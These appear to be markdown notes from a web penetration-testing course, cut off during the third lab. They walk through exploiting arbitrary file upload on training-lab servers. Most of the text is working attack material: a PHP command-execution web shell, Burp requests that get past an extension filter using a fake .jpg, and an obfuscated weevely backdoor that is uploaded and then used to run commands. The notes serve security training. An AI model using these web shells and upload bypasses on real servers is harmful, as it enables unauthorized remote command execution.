








# File and Resource Attacks

In the ever-evolving landscape of web application security, it's essential to stay ahead of the curve when it comes to protecting your web applications from potential threats. This comprehensive course delves deep into the critical aspects of file upload, directory traversal, Local File Inclusion (LFI), and Remote File Inclusion (RFI) vulnerabilities. This course is designed for cybersecurity professionals, web application penetration testers, and anyone interested in web application security testing. It focuses on file and resource-based vulnerabilities commonly encountered in modern web applications. It will also give you practical knowledge and hands-on experience in identifying, exploiting, and mitigating vulnerabilities related to file and resource handling in web applications.

This course will start by introducing you to Arbitrary File Upload vulnerabilities and will teach you how to identify and exploit these vulnerabilities for remote code execution (RCE). You will also get an introduction to Directory Traversal vulnerabilities, and you will get an insight into what causes Directory Traversal vulnerabilities and how they can be identified and exploited. The course will then close off by covering inclusion vulnerabilities, specifically Local File Inclusion (LFI) and Remote File Inclusion (RFI).

---

## Course Introduction

### Course Topic Overview

- Identifying and Exploiting Arbitrary File Upload Vulnerabilities (Bypassing File Upload Extension Filters, Bypassing PHPx Blacklists)
- Identifying and Exploiting Directory/Path Traversal Vulnerabilities
- Identifying and Exploiting LFI Vulnerabilities
- Identifying and Exploiting RFI Vulnerabilities

### Prerequisites

- Basic familiarity with HTTP/HTTPS
- Basic familiarity with Linux

### Learning Objectives

- You will have an understanding of what File Upload, Directory Traversal, LFI and RFI vulnerabilities are and how to identify them.
- You will have the ability to bypass file upload filters and blacklists for RCE.
- How will be able to exploit Directory Traversal vulnerabilities.
- You will have the ability to identify and exploit LFI vulnerabilities.
- You will have the ability to identify and exploit RFI vulnerabilities.

---
---

## Arbitrary File Upload Vulnerabilities

### Exploiting Basic File Upload Vulnerabilities

#### Lab Environment

**Vulnerable Apache IV**

Apache is probably the most popular web server on the World Wide Web with millions of deployments! In this series of challenges, we hope to explore how attackers can exploit webapps running on Apache arising due to server misconfigurations and/or application vulnerabilities. Take a look at the scenario below.

The target server has not been properly secured against <u>arbitrary file upload</u> and <u>execution vulnerability</u>.

**Objective**: Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag!

#### Lab Solution

`whatweb https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/`:
```
https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/ [200 OK] Apache[2.4.7], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[172.104.136.144], JQuery, PHP[5.5.9-1ubuntu4.25],📌 Script, X-Powered-By[PHP/5.5.9-1ubuntu4.25]
```

`echo '<?php echo "test" ?>' > ./test.php`



`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/
Content-Type: multipart/form-data; boundary=---------------------------220412119661351292736528440
Content-Length: 250
Origin: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

-----------------------------220412119661351292736528440
Content-Disposition: form-data; name="fileToUpload"; filename="test.php"📌
Content-Type: application/x-php📌

<?php echo "test" ?>📌

-----------------------------220412119661351292736528440--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:28:33 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4061


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	  <a href='uploads/test.php'>File Uploaded Succesfully</a>📌                       </div>

[...]
```

`gobuster dir --url https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/ --wordlist /usr/share/wordlists/dirb/common.txt`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 336]
/.git/HEAD            (Status: 200) [Size: 23]
/.htaccess            (Status: 403) [Size: 341]
/.htpasswd            (Status: 403) [Size: 341]
/cgi-bin/             (Status: 403) [Size: 340]
/index.php            (Status: 200) [Size: 3399]
/LICENSE              (Status: 200) [Size: 10273]
/logo                 (Status: 200) [Size: 14598]
/phpinfo.php          (Status: 200) [Size: 76509]
/server-status        (Status: 403) [Size: 345]
/static               (Status: 301) [Size: 418] [--> http://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/static/]
/uploads              (Status: 301) [Size: 419] [--> http://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/uploads/]📌
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`curl -X GET https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/uploads/test.php`:
```
test 
```

`vim ./shell.php`:
```php
<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/
Content-Type: multipart/form-data; boundary=---------------------------220412119661351292736528440
Content-Length: 250
Origin: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

-----------------------------220412119661351292736528440
Content-Disposition: form-data; name="fileToUpload"; filename="test.php"
Content-Type: application/x-php

<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?>📌

-----------------------------220412119661351292736528440--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:36:39 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4062


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	  <a href='uploads/test.php'>File Uploaded Succesfully</a>📌                       </div>

[...]
```

`curl -X GET 'https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/uploads/shell.php?cmd=id'`:
```html
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
</pre>
```

`locate -i 'webshells' | grep -E '\.php$'`:
```
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/php-findsock-shell.php
```

### Bypassing File Upload Extension Filters

#### Lab Environment

**Vulnerable Nginx II**

Nginx, even though young by World Wide Web years, is as popular as Apache today. In this series of challenges, we hope to explore how attackers can exploit webapps running on Nginx  arising due to server misconfigurations and/or application vulnerabilities. Take a look at the scenario below.

The web portal only <u>allows the user to upload files with restricted extensions (i.e. jpg, png, etc.)</u>. But <u>a misconfiguration in PHP configuration file (`php.ini`) allows PHP code execution for uploaded files</u>.

**Objective:** Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag!

#### Lab Solution

`whatweb https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/`:
```
https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.4.6], IP[172.104.229.221], JQuery, PHP[5.5.9-1ubuntu4.25],📌 Script, X-Powered-By[PHP/5.5.9-1ubuntu4.25], nginx[1.4.6]
```

`echo '<?php echo "test" ?>' > ./test.php`

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------116211012514243033501053474257
Content-Length: 256
Origin: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
Referer: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------116211012514243033501053474257
Content-Disposition: form-data; name="fileToUpload"; filename="test.php"📌
Content-Type: application/x-php📌

<?php echo "test" ?>📌

-----------------------------116211012514243033501053474257--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:49:25 GMT
Server: nginx/1.4.6
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4052


<!DOCTYPE html>
<html lang="en">

[...]
            <div class="media-body">
	            Error!! Only JPG, PNG and BMP images are allowed                               </div>

[...]
```

`echo '<?php echo "This is not a real jpg image" ?>' > ./test.jpg`

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3389900069635376210896551091
Content-Length: 254
Origin: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
Referer: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------3389900069635376210896551091
Content-Disposition: form-data; name="fileToUpload"; filename="test.jpg"📌
Content-Type: image/jpeg📌

<?php echo "This is not a real jpg image" ?>📌

-----------------------------3389900069635376210896551091--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:53:34 GMT
Server: nginx/1.4.6
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4060


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a>📌                    </div>

[...]
```

`gobuster dir --url https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/ --wordlist /usr/share/wordlists/dirb/common.txt`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 168]
/.htaccess            (Status: 403) [Size: 168]
/.htpasswd            (Status: 403) [Size: 168]
/index.php            (Status: 200) [Size: 3398]
/static               (Status: 301) [Size: 184] [--> http://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/static/]
/uploads              (Status: 301) [Size: 184] [--> http://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/]📌
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3389900069635376210896551091
Content-Length: 254
Origin: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
Referer: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------3389900069635376210896551091
Content-Disposition: form-data; name="fileToUpload"; filename="shell.jpg"📌
Content-Type: image/jpeg

<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?>📌

-----------------------------3389900069635376210896551091--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:55:15 GMT
Server: nginx/1.4.6
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4061


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a>📌                    </div>

[...]
```

`curl -X GET 'https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/shell.jpg/shell.php?cmd=id'`:
```html
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>🚩
```

`weevely generate 'password123' ./weevely_shell.jpg`:
```
Generated './weevely_shell.jpg' with password 'password123' of 692 byte size.
```

`file ./weevely_shell.jpg`:
```
./weevely_shell.jpg: PHP phar archive with SHA1 signature
```

`cat ./weevely_shell.jpg`:
```
<?php include "\160\x68\141\x72\72\57\57".basename(__FILE__)."\57\x78";__HALT_COMPILER(); ?>/x�X�S`z�U�Qk�0���+J�hBE׭�v5�{l{Wj��hMJ▒�S�����0��%�\�]>��_ECǰ�$��E�%Ia�夘��M��2JzTq�XUEGI(bD-'/�U}�����w�n���UG-�2�?Qpس��w�6RS�)47�PN�VKA����M�!�{      b4▒^а
                                                             �  � `&�)�����
v�Ի�������RU>�Z+��P8��d��4`XjF&Y�▒�����h'��(��<�fJ�GG�����/3��s�u��^6�.��X�p@���D�M��E��R�RR8��5���Ѓm����(dR��hd�{���H=������of��ViG    ��
,v�c��!A��0lA.�Z�z$���m.�GBMB
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------36226146085396895671660538828
Content-Length: 750
Origin: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
Referer: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------36226146085396895671660538828
Content-Disposition: form-data; name="fileToUpload"; filename="weevely_shell.jpg"📌
Content-Type: image/jpeg📌

<?php include "\160\x68\141\x72\72\57\57".basename(__FILE__)."\57\x78";__HALT_COMPILER(); ?>/
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:01:31 GMT
Server: nginx/1.4.6
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4069


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a>📌                    </div>

[...]
```

`curl -X GET https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/weevely_shell.jpg/weevely_shell.php`

`weevely https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/weevely_shell.jpg/weevely_shell.php 'password123'`:
```
[+] weevely 4.0.1

[+] Target:     nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
[+] Session:    /home/kali/.weevely/sessions/nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/weevely_shell_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
www-data@attackdefense.com:/var/www/html/uploads $
```

### Bypassing PHPx Blacklists

#### Lab Environment

**Vulnerable Apache V**

Apache is probably the most popular web server on the World Wide Web with millions of deployments! In this series of challenges, we hope to explore how attackers can exploit webapps running on Apache  arising due to server misconfigurations and/or application vulnerabilities. Take a look at the scenario below.

